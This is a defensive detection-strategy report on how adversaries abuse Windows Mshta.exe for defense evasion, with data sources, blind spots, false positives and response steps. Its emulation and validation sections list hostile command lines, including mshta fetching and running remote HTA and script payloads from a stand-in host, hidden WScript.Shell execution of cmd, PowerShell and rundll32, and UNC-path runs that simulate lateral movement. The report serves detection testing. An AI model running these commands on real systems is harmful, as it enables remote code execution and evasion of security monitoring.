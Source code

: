 # Alerting & Detection Strategy (ADS) Report: Detecting Adversarial Use of `Mshta.exe`

## Goal
The primary goal of this technique is to detect adversarial attempts to bypass security monitoring using the Windows `Mshta.exe` utility. By leveraging this tool, adversaries execute scripts that can evade detection mechanisms and facilitate malicious activities such as code execution, persistence establishment, or lateral movement.

## Categorization

- **MITRE ATT&CK Mapping:** [T1218.005 - Mshta](https://attack.mitre.org/techniques/T1218/005)
- **Tactic / Kill Chain Phases:** Defense Evasion
- **Platforms:** Windows

## Strategy Abstract
This detection strategy leverages a combination of endpoint telemetry, network traffic analysis, and log monitoring to identify suspicious use of `Mshta.exe`. The primary data sources include:

- Event logs from Windows Security and Application events.
- Process monitoring data to observe unusual execution patterns.
- Network traffic analysis for anomalous communication.

Patterns analyzed will focus on unexpected combinations of command-line arguments, script executions, and network requests originating from `Mshta.exe`, particularly those that appear to be exploiting script-based vulnerabilities or remote execution paths.

## Technical Context
Adversaries utilize `Mshta.exe` to execute VBScript or JavaScript payloads as part of their attack vector. This utility is commonly used due to its ability to run scripts in memory, which can help bypass certain antivirus and endpoint detection mechanisms. In real-world scenarios, attackers may use it to:

- Execute remote HTML applications (HTAs).
- Fetch malicious code from remote servers.
- Initiate lateral movement within a network by exploiting script capabilities.

Adversaries often disguise their activities by embedding scripts in seemingly benign files or using less common protocols and techniques to avoid triggering standard detection mechanisms.

### Adversary Emulation Details
To emulate this technique, consider the following sample commands:

- **Executing VBScript via Mshta:**  
  `mshta vbscript:CreateObject("Wscript.Shell").Run("cmd /c <malicious_command>",0,True)`
  
- **Remote HTML Application Execution:**  
  `mshta http://example.com/malicious.hta`

## Blind Spots and Assumptions
- The detection strategy may miss novel or highly obfuscated script executions that do not follow typical patterns.
- Assumes a baseline of normal behavior for Mshta.exe in the environment, which might vary significantly between organizations.
- Limited visibility into encrypted network traffic could obscure some detections.

## False Positives
Potential benign activities that might trigger false alerts include:

- Legitimate administrative scripts executed using `Mshta.exe` for automation tasks.
- Development environments where script testing is a routine part of workflows.
- Use of legitimate remote management tools that utilize similar scripting techniques.

## Priority
**Severity: High**

Justification: The ability to execute scripts and bypass security measures poses significant risks, potentially leading to unauthorized access, data exfiltration, or further compromise of the network. Given its stealthy nature, detecting adversarial use of `Mshta.exe` is critical for maintaining robust defense mechanisms.

## Validation (Adversary Emulation)
Follow these steps in a controlled test environment to emulate this technique:

1. **Mshta Executes JavaScript Scheme Fetch Remote Payload With GetObject:**  
   Create and execute: `mshta vbscript:GetObject("script:http://example.com/malicious.js").exec()`

2. **Mshta Executes VBScript to Execute Malicious Command:**  
   Use the command: `mshta vbscript:CreateObject("Wscript.Shell").Run("<malicious_command>",0,True)`

3. **Mshta Executes Remote HTML Application (HTA):**  
   Run: `mshta http://example.com/malicious.hta`

4. **Invoke HTML Application - JScript Engine over Local UNC Simulating Lateral Movement:**  
   Execute: `mshta file:///\\path\to\network\share\malicious.hta`

5. **Invoke HTML Application - Jscript Engine Simulating Double Click:**  
   Use a script that triggers on user interaction: `mshta vbscript:WScript.CreateObject("WScript.Shell").Run("<command>",0,False)`

6. **Invoke HTML Application - Direct Download from URI:**  
   Command: `mshta http://example.com/malicious.hta`

7. **Invoke HTML Application - JScript Engine with Rundll32 and Inline Protocol Handler:**  
   Example command: `mshta vbscript:CreateObject("WScript.Shell").Run("rundll32 <parameters>",0,True)`

8. **Invoke HTML Application - JScript Engine with Inline Protocol Handler:**  
   Execute: `mshta vbscript:GetObject("<protocol_handler>:<command>").exec()`

9. **Invoke HTML Application - Simulate Lateral Movement over UNC Path:**  
   Test: `mshta file:///\\path\to\network\share\malicious.hta`

10. **Mshta Used to Execute PowerShell:**  
    Command: `mshta vbscript:CreateObject("WScript.Shell").Run("powershell <command>",0,True)`

## Response
When the alert fires, analysts should:

- Immediately isolate affected systems from the network.
- Review logs for context and potential indicators of compromise (IoCs).
- Conduct a thorough investigation to determine the scope and impact.
- Remediate any identified malicious scripts or payloads.
- Update security policies and detection mechanisms to mitigate similar future threats.

## Additional Resources
For further reading and understanding, refer to:

- **Read Contents From Stdin Via Cmd.EXE:** Understanding command injection techniques.
- **MSHTA Suspicious Execution 01 & 02:** Investigating suspicious Mshta.exe usage.
- **Wscript Shell Run In CommandLine:** Exploring WScript.Shell exploitation vectors.
- **Remotely Hosted HTA File Executed Via Mshta.EXE:** Identifying remote execution patterns.

These resources provide additional context and examples of how adversaries may use `Mshta.exe` to conduct malicious activities, helping to refine detection strategies.